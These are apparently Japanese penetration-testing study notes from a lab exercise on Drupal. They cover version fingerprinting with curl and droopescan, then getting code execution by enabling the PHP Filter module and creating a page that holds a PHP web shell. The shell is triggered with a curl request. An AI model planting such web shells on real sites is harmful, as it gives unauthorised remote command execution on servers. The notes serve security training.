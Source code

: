 バージョン、インストールされているプラグインなどを特定できる
- 新しいDrupalのインストールでは、デフォルトで CHANGELOG.txt や README.txt へのアクセスがブロックされていることがある

CHANGELOG.txt を使ってバージョン番号を特定する例
```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```

droopescanでバージョンを特定する必要がある

インストール
```shell-session
sudo pip3 install droopescan
```

スキャン
- droopescan はDrupalに対してはより多機能
```shell-session
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## 攻撃
### PHPフィルタモジュールの活用
- 古いバージョンのDrupal（バージョン8以前）では、管理者としてログインしてPHPフィルタモジュールを有効にすることが可能
- このモジュールは「埋め込みPHPコード／スニペットを評価できる」ようにする

- ここで、該当モジュールのチェックボックスをオンにし、ページ下部までスクロールして「設定を保存」する
`http://drupal-qa.inlanefreight.local/#overlay=admin/modules`
![](https://i.imgur.com/kD4AClz.png)

- 次に、「コンテンツ」→「コンテンツの追加」から**基本ページ**を作成
`http://drupal-qa.inlanefreight.local/#overlay=node/add`
![](https://i.imgur.com/6X19nrf.png)

- 以下のような悪意あるPHPスニペットを含んだページを作成できる
- ここでは、cmd という一般的なパラメータ名の代わりに、md5ハッシュで名前付けしてある
- これは、テスト中に誰かが偶然ウェブシェルを見つけてしまう“ドライブバイ”攻撃を防ぐための良い習慣
- `system($_GET['cmd']);`のようにしてしまうと、誰でも簡単にコマンドを実行できてしまう
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

以下のようにしてアクセスできる
```
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```


Drupal 8以降では、PHPフィルタモジュールはデフォルトではインストールされていない
- この機能を利用するには、自分でモジュールをインストールする必要がある
```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
- ダウンロード後は、Drupal管理画面の「レポート」→「利用可能な更新」へアクセス
- モジュールのインストールが完了したら、「コンテンツ」→「基本ページ作成」に進み、Drupal 7の例と同様にページを作成する
